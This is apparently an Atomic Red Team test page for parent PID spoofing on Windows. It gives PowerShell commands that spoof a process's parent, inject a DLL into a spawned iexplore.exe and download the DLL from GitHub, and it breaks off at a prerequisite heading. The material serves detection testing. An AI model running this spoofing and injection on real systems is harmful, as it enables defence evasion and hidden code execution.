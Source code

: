 ## Atomic Test #1 - Parent PID Spoofing using PowerShell
This test uses PowerShell to replicates how Cobalt Strike does ppid spoofing and masquerade a spawned process.
Upon execution, "Process C:\Program Files\Internet Explorer\iexplore.exe is spawned with pid ####" will be displayed and
calc.exe will be launched.

Credit to In Ming Loh (https://github.com/countercept/ppid-spoofing/blob/master/PPID-Spoof.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 069258f4-2162-46e9-9a25-c9c6c56150d2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parent_process_name | Name of the parent process | string | explorer|
| spawnto_process_path | Path of the process to spawn | path | C:&#92;Program Files&#92;Internet Explorer&#92;iexplore.exe|
| dll_process_name | Name of the created process from the injected dll | string | calculator|
| dll_path | Path of the dll to inject | path | PathToAtomicsFolder&#92;T1134.004&#92;bin&#92;calc.dll|
| spawnto_process_name | Name of the process to spawn | string | iexplore|


#### Attack Commands: Run with `powershell`! 


```powershell
. "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
PPID-Spoof -ppid $ppid -spawnto "#{spawnto_process_path}" -dllpath "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{dll_process_name}" -ErrorAction Ignore
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: DLL to inject must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1134.004/bin/calc.dll" -OutFile "#{dll_path}"
```
##### Description: PPID.ps1 must exist on disk at $PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1
##### Check Prereq Commands:
```powershell
if (Test-Path "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1") {exit 0} else {exit 1}
```
##### Get Prereq Commands: